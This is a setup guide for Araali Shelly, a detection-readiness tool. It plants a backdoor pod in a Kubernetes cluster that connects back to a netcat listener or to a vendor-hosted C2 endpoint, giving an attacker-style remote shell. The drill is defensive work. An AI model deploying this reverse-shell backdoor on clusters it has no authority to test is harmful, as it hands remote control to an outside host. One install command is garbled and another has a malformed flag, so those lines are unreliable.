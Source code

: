 ===================================
Getting started with Shelly(Linux)
===================================

Araali Shelly is an open source tool that helps security teams safely test their detect and
response readiness (the fire drill for SIEM/SOAR/EDR/NDR/XDR investment) for backdoors. 
This is typical when supply chain vulnerabilities like remote code execution (RCE) are 
exploited and represents a doomsday scenario where an attacker has full remote control 
capabilities based on the backdoor.

**Setting up the Backdoor Server**

Run a cloud VM where you can listen for incoming connections (you can use a small t2-micro). 
Note down the external IP address of this machine (will be used later on).
You can also dial out to Araali’s backdoor-as-a-service -nightly.aws.araalinetworks.com:443

Join our `Slack Channel <https://araali.slack.com/join/shared_invite/zt-o3yeo8us-GRa7qtz4p0kcIVIBaIxWbA#/shared-invite/email>` if you need any help

#Install net cat and listen for incoming connections::

    sudo nc -nvlp 443

We suggest you run Shelly after `installing Araali <https://araali-networks-api.readthedocs.io/en/latest/gettingstarted.html>`. By doing so, Shelly is safely run in a no harm sandbox.

**Setup Shelly in your Cluster**

#Setup Helm Repo::

    helm repo add araali-helm https://araalinetworks.github.io/araali-helm/

#Create namespace::

    kubectl create ns araali-attack

**If your cluster is running araali**
    #Install Shelly(With your own Backdoor)::

        helm install attack araali-helm/araali-attack -n araali-attack --set araali.zone=<araali-zone> --set araali.socat_c2c_endpoint=<ip-of-cloud-server>:443
    OR
    #Install Shelly(With Backdoor offered by Araali)::

        helm install attack araali-helm/araali-attack -n araali-attack --set araali.zone=demo --set araali.socat_c2c_endpoint=backdoor-nightly.aws.araalinetworks.com:443

**If your cluster is NOT running araali**
    #Install Shelly(With your own Backdoor)::

        helm install attack araali-helm/araali-attack -n araali-attack --set araali.zone=<araali-zone> --set araali.socat_c2c_endpoint=<ip-of-cloud-server>:443helm install attack araali-helm/araali-attack -n araali-attack --set araali.include_policy_as_code=false --set araali.socat_c2c_endpoint=<ip-of-cloud-server:443>
    OR
    #Install Shelly(With Backdoor offered by Araali)::

       helm install attack araali-helm/araali-attack -n araali-attack --set araali.include_policy_as_code=false --araali.socat_c2c_endpoint=backdoor-nightly.aws.araalinetworks.com:443

#Check if the pods are up and running::

    kubectl get po -A


**How to uninstall Shelly?**

Run the following command to uninstall Shelly from your cluster::
    
    helm uninstall attack -n araali-attack



    
















